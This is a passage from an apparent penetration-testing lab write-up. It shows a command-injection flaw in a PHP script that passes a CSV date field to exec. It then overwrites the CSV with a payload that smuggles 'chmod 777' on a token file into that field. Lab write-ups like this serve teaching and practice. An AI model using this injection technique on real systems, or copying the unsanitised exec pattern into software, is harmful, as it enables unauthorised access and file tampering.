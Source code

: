 If you actually paid attention to the __parse.php__ script you would have noticed something quite unusual on the following lines.

```php
if ($c==2 or $c==3) {
$converted = exec('date -d @'.$value);
echo '<td>'.$converted.'</td>';
```

It seems that the script takes the date field which is in epoch time and converts it using the [date](http://man7.org/linux/man-pages/man1/date.1.html) command, but PHP also is utilizing the dreaded [exec](http://php.net/manual/en/function.exec.php) function, which presents us with a Command Injection Vulnerability in the Date field!

Perfect! Now that we found a command injection vulnerability, all that we really need to do is to find a way to write contents to __db.csv__. 

We know that the file gets copied over from __172.16.0.17__ via FTP, so let's SSH into that machine and see if we can't overwrite the file somehow.

```console
root@kali:~/pentestit# ssh -i aengineer.key aengineer@172.16.0.17
The authenticity of host '172.16.0.17 (172.16.0.17)' can't be established.
ECDSA key fingerprint is SHA256:eCUUbPi982duUnl4Z2icxjpvjroDyEr/7Q567c6j0gs.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '172.16.0.17' (ECDSA) to the list of known hosts.
Last login: Tue Jul  4 23:02:54 2017 from 172.16.0.252
##########################
PasswordAuthentication no
##########################
aengineer@tl11-172-16-0-17:~$ cd /var/ftp
aengineer@tl11-172-16-0-17:/var/ftp$ ls -la
total 32
dr-xr-xr-x  2 acontrol  acontrol 4096 Jun 23 20:42 .
drwxr-xr-x 12 root      root     4096 Jun 23 14:03 ..
-rw-------  1 acontrol  acontrol  111 Jun 23 15:42 .bash_history
-rw-r--r--  1 root      root      220 Jun 23 14:09 .bash_logout
-rw-r--r--  1 root      root     3515 Jun 23 14:09 .bashrc
-rwxr-x---  1 aengineer acontrol 4655 Jul 27 04:15 db.csv
-rw-r--r--  1 root      root      675 Jun 23 14:09 .profile
```

Well how about that, it seems we have write permissions to the __db.csv__ file!

Alright, from here all we need to do is inject the following code, which will write the "expected" data to the CSV file, but for the Date field, we will inject a command to give us read permissions for the __token.sec__ file, like so...

```console
aengineer@tl11-172-16-0-17:/var/ftp$ python -c 'print "Name;Surname;In;Out;ID\nJack;KKB;1501118352.0|chmod 777 /var/www/html/token.sec;1501121952.0;38611"' > db.csv
```

## Finding the Access Control Token

Now that we have injected the following code, let's go back to the __parse.php__ website, use our authentication token and we should see our newly generated data on the webpage.
